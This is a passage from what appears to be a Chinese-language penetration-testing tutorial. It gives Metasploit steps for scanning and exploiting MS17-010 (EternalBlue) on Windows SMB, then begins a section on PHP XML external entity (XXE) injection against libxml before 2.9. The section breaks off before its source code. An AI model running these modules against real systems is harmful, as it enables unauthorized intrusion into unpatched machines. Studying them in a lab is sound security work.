 ![1563193406277](IMG/1563193406277.png)

进metasploit的`msfconsole`，命令可以用`search ms17-010`搜索出来，接下来只需要`set rhosts [ip] `即可

```
 use auxiliary/scanner/smb/smb_ms17_010  这是扫描监测模块，可以批量扫描，后面可跟CIDR地址
 use exploit/windows/smb/ms17_010_eternalblue  这是攻击模块
```

通过`show options`设置完要求的几个参数之后,可以直接输入`run`或者`exploit`攻击

 *对于新手来说, 在命令行中善用TAB键自动补全是极其方便的*


  ## PHP环境XML外部实体注入漏洞（XXE）

   **环境介绍**
   
   - PHP 7.0.30
   
   - libxml 2.8.0 
   
     > libxml2.9以前的版本默认支持并开启了对外部实体的引用, 在解析用户提交的XML文件时，未对XML文件引用的外部实体做合适的处理，并且实体的URL支持file://和ftp://等协议，导致可加载恶意外部文件和代码，造成任意文件读取、命令执行等
   
   **源代码**
   
     - dom.php
   